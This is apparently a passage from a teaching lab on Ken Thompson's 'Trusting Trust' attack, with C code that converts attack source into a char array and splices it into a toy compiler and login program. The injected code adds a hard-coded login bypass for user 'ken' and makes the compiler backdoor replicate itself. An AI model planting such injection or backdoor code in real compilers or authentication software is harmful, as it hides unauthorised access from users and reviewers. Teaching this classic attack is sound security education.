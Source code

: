 Note that we have removed the definition for `compile_attack`, since we will be injecting the entire attack code instead! To be able to inject our attack code, we modify our `step1/string-to-char-array.c` to become `step3/generate-attack-array.c`:

```c
// convert the contents of stdin to their ASCII values (e.g.,
// '\n' = 10) and spit out the <prog> array used in Figure 1 in
// Thompson's paper.
#include <stdio.h>

int main(void) {
    // put your code here.
    printf("static char compile_attack[] = {\n");
    int c;
    while ((c = fgetc(stdin)) != EOF) {
        printf("\t%d,\n", c);
    }
    printf("\t0\n};\n\n");
    return 0;
}
```

With this, we can convert our attack code into a `char[]` definition. Now we can simply `#include` it in our attack code:

```c
// make #include appear on new line
#include "attack-array.h"
    // not a very robust finger-print, but what can you do.
    // in a real compiler we would do this match on the parse tree,
    // which strips out some non-essential features.
    static char compile_sig[] =
            "static void compile(char *program, char *outname) {\n"
            "    FILE *fp = fopen(\"./temp-out.c\", \"w\");\n"
            "    assert(fp);"
            ;

    static char login_sig[] = "int login(char *user) {";
    static char login_attack[] = "if(strcmp(user, \"ken\") == 0) return 1;";

    /* your code goes here */
    char *login_sig_loc = strstr(program, login_sig);
    if (login_sig_loc != NULL) {
        static char tmp[8*1024*1024 + 1];
        size_t login_attack_offset = login_sig_loc - program + strlen(login_sig);
        strcpy(tmp, program + login_attack_offset);
        strcpy(program + login_attack_offset, login_attack);
        strcpy(program + login_attack_offset + strlen(login_attack), tmp);
    }

    char *compile_sig_loc = strstr(program, compile_sig);
    if (compile_sig_loc != NULL) {
        static char tmp[8*1024*1024 + 1];
        size_t compile_attack_offset = compile_sig_loc - program + strlen(compile_sig);
        strcpy(tmp, program + compile_attack_offset);
        strcpy(program + compile_attack_offset, compile_attack);
        strcpy(program + compile_attack_offset + strlen(compile_attack), tmp);
    }
```
